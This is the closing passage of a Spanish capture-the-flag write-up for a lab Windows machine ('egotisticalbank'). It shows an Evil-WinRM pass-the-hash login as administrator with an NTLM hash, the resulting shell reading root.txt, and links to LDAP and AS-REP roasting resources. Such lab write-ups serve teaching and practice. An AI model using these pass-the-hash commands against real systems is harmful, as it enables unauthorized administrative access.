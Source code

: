 Podemos usar **Evil-WinRM** para conectarnos como administrador (aunque igual lo podemos hacer con **psexec y wmiexec**):
```batch
evil-winrm -i 10.10.10.175 -u 'administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/16/2024   6:51 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
...
```
Hemos completado la máquina.

<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/peass-ng/PEASS-ng/releases/tag/20241011-2e37ba11
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#ldapsearch
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#as-rep-roasting


<br>
# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
